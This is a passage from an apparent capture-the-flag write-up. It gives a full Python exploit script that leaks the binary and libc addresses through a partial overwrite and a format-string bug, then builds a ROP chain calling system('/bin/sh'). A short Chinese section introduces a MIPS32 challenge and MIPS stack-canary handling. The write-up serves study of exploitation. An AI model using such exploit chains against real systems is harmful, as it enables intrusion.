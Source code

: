 ```python
from pwno import *

context.terminal = ["tmux", "splitw", "-h"]

libc = ELF("/usr/lib/libc.so.6")

sh = gen_sh()


sa(b" chance...\n", b"A" * 0x108 + p8((elf.sym["yap"] + 8) & 0xFF))
elf.address = int(recvu(b"\n", drop=True), 16) - elf.sym["play"]
success(elf.address)

payload = b"BBBB%7$p"
# dbg("b printf")
sa(
    b"try...\n",
    payload.ljust(0x108)
    + p64(elf.address + 0x1243)
    + p64(elf.plt["printf"])
    + p64(elf.sym["main"]),
)

recvu(b"BBBB")
libc.address = int(recvu(b"Can", drop=True), 16) - 0x276B5
success(libc.address)

pop_rax_ret = libc.address + 0xD40F7  # pop rax; ret;
pop_rdi_ret = libc.address + 0x10194A  # pop rdi; ret;
pop_rsi_ret = libc.address + 0x53187  # pop rsi; ret;
syscall_ret = libc.address + 0x928C6  # syscall; ret;
binsh = libc.address + 0x1AEF24  # /bin/sh

dbg(s=-1)
sa(
    b"chance...\n",
    b"A".ljust(0x108) + p64(pop_rdi_ret) + p64(binsh) + p64(libc.sym["system"]),
)

ia()
```

## mips

异构 mips32 题，两次读一次溢出，有后门函数，感觉难点在怎么打开和调试（笑

不过它的解题脚本还是非常具有参考意义的。

简单介绍一下 mips 的 canary 机制，其实观察图上我们就可以知道，它是通过 $gp 寄存器找到一个偏移，在这个偏移上存了存放我们 canary 地址的指针。

![image-20250523020719658](https://oss.nova.gal/img/image-20250523020719658.png)
